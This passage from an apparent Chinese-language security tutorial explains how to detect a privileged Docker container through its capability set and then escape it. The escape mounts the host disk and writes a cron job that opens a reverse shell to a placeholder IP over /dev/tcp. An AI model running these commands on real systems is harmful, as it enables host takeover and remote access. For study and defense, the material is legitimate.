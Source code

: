 CapEff 主要是检查线程的执行权限，所以重点看下利用 `capsh --decode=0000003fffffffff` 进行解码，检索默认没有添加的 NET\_ADMIN，发现存在

[![](assets/1708095739-3bafe5826f304c7b089a5bc5e80d27a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211332-79e01266-e5c6-1.png)  
而非特权容器的 Cap 集合值并进行解码，发现并不存在 NET\_ADMIN

因此当执行 `cat /proc/1/status | grep Cap` 查询对应出来的值为 `0000003fffffffff` 那么就有可能是特权容器，可尝试逃逸

### 逃逸

1、首先以特权模式运行一个 docker 容器

```bash
docker run -it --privileged 镜像 id /bin/bash
```

2、查看磁盘文件

```bash
fdisk -l
```

[![](assets/1708095739-f604610c55e69247a2960b2601c4a737.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211343-80258066-e5c6-1.png)  
3、新建一个目录，将/dev/vda1 挂载至新建的目录

```bash
mkdir /test
mount /dev/vda1 /test
```

4、写入计划任务到宿主机

```bash
echo '* * * * * bash -i >& /dev/tcp/ip/4000 0>&1' >> /test/var/spool/cron/root
```

5、成功反弹 shell

[![](assets/1708095739-f6986064f826f7f0ab63abe70a988728.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211403-8bf935ae-e5c6-1.png)
